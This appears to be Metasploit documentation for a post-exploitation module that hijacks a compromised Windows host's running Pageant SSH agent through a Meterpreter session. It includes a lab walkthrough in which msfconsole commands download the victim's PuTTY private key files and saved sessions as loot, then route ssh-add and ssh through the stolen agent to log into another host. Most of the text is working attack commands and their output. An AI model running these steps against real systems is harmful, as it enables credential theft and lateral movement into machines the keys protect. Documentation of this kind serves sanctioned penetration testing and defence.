 ## Vulnerable Application

This module forwards SSH agent requests from a local socket to a remote Pageant instance.
If a target Windows machine is compromised and is running Pageant, this will allow the
attacker to run normal OpenSSH commands (e.g. ssh-add -l) against the Pageant host which are
tunneled through the meterpreter session. This could therefore be used to authenticate
with a remote host using a private key which is loaded into a remote user's Pageant instance,
without ever having knowledge of the private key itself.

Note that this requires the PageantJacker meterpreter extension, but this will be automatically
loaded into the remote meterpreter session by this module if it is not already loaded.

## Verification Steps

1. Start msfconsole
2. Get a Meterpreter session
3. Do: `use post/windows/manage/forward_pageant`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

### SocketPath

Specify a filename for the local UNIX socket. (default path is random)

## Scenarios

### Pageant 0.77.0.0 on Windows 7 SP1 (x64)

Use `windows/gather/enum_putty_saved_sessions` to detect Pageant and known hosts:

```
msf6 > use post/windows/gather/enum_putty_saved_sessions
msf6 post(windows/gather/enum_putty_saved_sessions) > set session 1
session => 1
msf6 post(windows/gather/enum_putty_saved_sessions) > run

[*] Looking for saved PuTTY sessions
[*] Found 3 sessions

PuTTY Saved Sessions
====================

 Name             HostName         UserName  PublicKeyFile                       PortNumber  PortForwardings  ProxyUsername  ProxyPassword
 ----             --------         --------  -------------                       ----------  ---------------  -------------  -------------
 192.168.200.158  192.168.200.158            C:\Users\user\Desktop\ubuntu22.ppk  22
 example.com      example.com                C:\Users\user\Desktop\serial1.ppk   22
 serial1                                     C:\Users\user\Desktop\serial1.ppk   0

[+] PuTTY saved sessions list saved to /root/.msf4/loot/20220807223341_default_192.168.200.190_putty.sessions.c_273976.txt in CSV format & available in notes (use 'notes -t putty.savedsession' to view).
[*] Downloading private keys...
[+] PuTTY private key file for '192.168.200.158' (C:\Users\user\Desktop\ubuntu22.ppk) saved to: /root/.msf4/loot/20220807223341_default_192.168.200.190_putty.ppk.file_988729.bin
[+] PuTTY private key file for 'example.com' (C:\Users\user\Desktop\serial1.ppk) saved to: /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.ppk.file_341943.bin
[+] PuTTY private key file for 'serial1' (C:\Users\user\Desktop\serial1.ppk) saved to: /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.ppk.file_265111.bin


PuTTY Private Keys
==================

 Name             HostName         UserName  PublicKeyFile                       Type  Cipher  Comment
 ----             --------         --------  -------------                       ----  ------  -------
 192.168.200.158  192.168.200.158            C:\Users\user\Desktop\ubuntu22.ppk
 example.com      example.com                C:\Users\user\Desktop\serial1.ppk
 serial1                                     C:\Users\user\Desktop\serial1.ppk


[*] Looking for previously stored SSH host key fingerprints
[*] Found 1 stored key fingerprint
[*] Downloading stored key fingerprints...

Stored SSH host key fingerprints
================================

 SSH Endpoint        Key Type(s)
 ------------        -----------
 192.168.200.158:22  ssh-ed25519

[+] PuTTY stored host keys list saved to /root/.msf4/loot/20220807223342_default_192.168.200.190_putty.storedfing_027625.txt in CSV format & available in notes (use 'notes -t putty.storedfingerprint' to view).

[*] Looking for Pageant...
[+] Pageant is running (Handle 0x330820)
[*] Post module execution completed

```

Establish a local forward with `post/windows/manage/forward_pageant`:

```
msf6 > use post/windows/manage/forward_pageant 
msf6 post(windows/manage/forward_pageant) > set session 1
session => 1
msf6 post(windows/manage/forward_pageant) > run

[*] Launched listening socket on /tmp/bVN4Dg2W
[*] Set SSH_AUTH_SOCK variable to /tmp/bVN4Dg2W (e.g. export SSH_AUTH_SOCK="/tmp/bVN4Dg2W")
[*] Now use any SSH tool normally (e.g. ssh-add)
```

Specify the `SSH_AUTH_SOCK` UNIX socket path when using ssh tools:

```
$ SSH_AUTH_SOCK="/tmp/bVN4Dg2W" ssh-add -l
3072 SHA256:/M07p51CmCSMrV1lbFs19OMvyRw6g9Wxbq8bW5px0KA asdf@ubuntu-22-04-amd64 (RSA)

$ SSH_AUTH_SOCK="/tmp/bVN4Dg2W" ssh asdf@192.168.200.158
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

209 updates can be applied immediately.
29 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

*** System restart required ***
Last login: Sun Aug  7 22:19:04 2022 from 192.168.200.130
asdf@ubuntu-22-04-amd64:~$ 
```
